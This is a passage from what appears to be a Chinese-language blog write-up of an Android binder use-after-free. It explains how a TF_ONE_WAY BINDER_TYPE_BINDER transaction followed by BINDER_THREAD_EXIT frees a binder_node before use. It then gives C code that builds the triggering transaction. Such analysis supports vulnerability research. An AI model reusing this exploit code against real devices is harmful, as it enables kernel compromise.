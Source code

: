 因而明白了触发漏洞的思路

首先我们自己向 binder 发送一个 BINDER_TYPE_BINDER TF_ONE_WAY 的事务，binder 会创建一个 binder_node, 并将该 binder_node 的 work 加入 binder_thread->todo list 里面去  
![](https://img-blog.csdnimg.cn/f0598432787f4c4e82e7f458d65bc15a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

之后我们进程使用 BINDER_THREAD_EXIT 启动清理过程，调用 binder_release_work, 把我们的 node.work 出 todo list 的队

![](https://img-blog.csdnimg.cn/30698271d15046e387688a8f0858ebea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

因为我们设置的是 TF_ONE_WAY，之后 binder 就会在出队之后和使用之前 free 掉 binder_node，造成 uaf

![](https://img-blog.csdnimg.cn/825f26f32fa84049b158488fb7dbef8b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

首先根据我们之前分析的 work 入 todo list 队, 构造一个符合条件，通过前面所有检查的 trnasaction

```
static inline void init_binder_transaction(int nb) {
    /*
     * Writes `nb` times a BINDER_TYPE_BINDER object in the object buffer
     * and updates the offsets in the offset buffer accordingly
     */
    for (int i = 0; i < nb; i++) {
        struct flat_binder_object *fbo =
            (struct flat_binder_object *)((void*)(MEM_ADDR + 0x400LL + i*sizeof(*fbo)));
        fbo->hdr.type = BINDER_TYPE_BINDER;
        fbo->binder = i;
        fbo->cookie = i;
        uint64_t *offset = (uint64_t *)((void *)(MEM_ADDR + OFFSETS_START + 8LL*i));
        *offset = i * sizeof(*fbo);
    }

    /*
     * Binder transaction data referencing the offset and object buffers
     */
    struct binder_transaction_data btd2 = {
        .flags = TF_ONE_WAY, /* we don't need a reply */
        .data_size = 0x28 * nb,
        .offsets_size = 8 * nb,
        .data.ptr.buffer = MEM_ADDR  + 0x400,
        .data.ptr.offsets = MEM_ADDR + OFFSETS_START,
    };

    uint64_t txn_size = sizeof(uint32_t) + sizeof(btd2);

    /* Transaction command */
    *(uint32_t*)(MEM_ADDR + 0x200) = BC_TRANSACTION;
    memcpy((void*)(MEM_ADDR + 0x204), &btd2, sizeof(btd2));

    /* Binder write/read structure sent to binder */
    struct binder_write_read bwr = {
        .write_size = txn_size * (1), // 1 txno
        .write_buffer = MEM_ADDR + 0x200
    };
    memcpy((void*)(MEM_ADDR + 0x100), &bwr, sizeof(bwr));
}

```

